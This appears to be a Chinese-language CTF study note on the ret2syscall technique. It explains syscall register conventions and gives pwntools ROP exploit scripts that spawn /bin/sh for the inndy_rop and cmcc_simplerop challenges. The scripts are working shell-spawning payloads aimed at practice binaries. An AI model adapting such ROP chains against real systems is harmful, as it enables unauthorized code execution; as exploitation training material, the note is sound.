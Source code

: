 [关于系统调用如何传递参数问题，即系统调用约定（syscall，int 80h，svc）_int 80h intel汇编用法-CSDN博客](https://blog.csdn.net/weixin_45574485/article/details/106200229)

[ret2syscall的做题思路（以32位程序为例） - ZikH26 - 博客园 (cnblogs.com)](https://www.cnblogs.com/ZIKH26/articles/15851216.html)

主要是参数和调用号的传递

像ax这种的可以通过函数返回值来控制对应的值，比如**read**返回读取的字节数。



## 64位

**syscall**

syscall是64位的系统调用

调用号通过 **rax**传递

参数传递: **rdi**，**rsi**，**rdx**，**rcx**，**r8**，**r9**



## 32位

**int 80h**

调用号: **eax**

参数: **ebx**，**ecx**，**edx**，**esi**，**edi**



---

Intel 体系系统调用最多**6**个参数，都是通过寄存器传递，都不通过栈。

系统调用的返回结果在**ax**里



## Example

以32位为例

我们想调用

```c
execve("/bin/sh",NULL,NULL)
```

eax : execve的系统调用号 0xb

ebx :  第一个参数，指向`"/bin/sh"`的地址

ecx : 第二个参数，0

edx: 第三个参数，0



## 两种写入syscall参数的方法

具体的看上面的参考文章

**1. 利用寄存器pop**

```python
payload = p32(pop_ecx) + p32(bss) + p32(pop_[ecx]) + b'/bin'
payload += p32(pop_ecx) + p32(bss+4) + p32(pop_[ecx]) + b'/sh\x00'
```

查找 `[ecx]`gadget:

```bash
 ROPgadget --binary=./pwn | grep 'pop dword ptr \[ecx\]'
```



**2. 利用read函数**

将返回地址设置为read函数地址，然后找三个pop gadget来传read的三个参数。（32位，函数先传）



## 一些例题

具体分析看参考文章



[inndy_rop](https://buuoj.cn/challenges#inndy_rop)

```python
pop_eax_ret = 0x080b8016
pop_ebx_ret = 0x080481c9
pop_ecx_ret = 0x080de769
pop_edx_ret = 0x0806ecda
pop_ecx_mem_ret = 0x0804b5ba # [ecx]
int_0x80 = 0x0806c943

bss = 0x80EAF80


payload = b''
payload += b'a'*0xC + b'b'*4 + p32(pop_ecx_ret) + p32(bss) + p32(pop_ecx_mem_ret) + b'/bin' \
		 + p32(pop_ecx_ret) + p32(bss+4) + p32(pop_ecx_mem_ret) + b'/sh\x00'

payload += p32(pop_eax_ret) + p32(0xb) + p32(pop_ebx_ret) + p32(bss) + p32(pop_ecx_ret) + p32(0) + p32(pop_edx_ret) + p32(0) + p32(int_0x80)

sl(payload)

p.interactive()
```



[cmcc_simplerop](https://buuoj.cn/challenges#cmcc_simplerop)

```python
pop_eax_ret = 0x080bae06
pop_ebx_ret = 0x080481c9
pop_ecx_ebx_ret = 0x0806e851
pop_edx_ret = 0x0806e82a
int_0x80 = 0x080493e1
pop_edx_ecx_ebx_ret = 0x0806e850

offset = 0x20
read = 0x0806CD50
bss = 0x80EAF80

payload = b'a'*0x20 + p32(read) + p32(pop_edx_ecx_ebx_ret) # pop * 3
payload += p32(0) + p32(bss) + p32(8)
payload += p32(pop_eax_ret) + p32(11) + p32(pop_ebx_ret) + p32(bss) + p32(pop_ecx_ebx_ret) + p32(0) + p32(bss) + p32(pop_edx_ret) + p32(0) + p32(int_0x80)

sla("Your input :",payload)
sl(b'/bin/sh\x00')

p.interactive()
```



[picoctf_2018_can_you_gets_me](https://buuoj.cn/challenges#picoctf_2018_can_you_gets_me)

静态链接，ROPgadget生成ropchain:

```bash
ROPgadget --binary ./pwn --ropchain
```

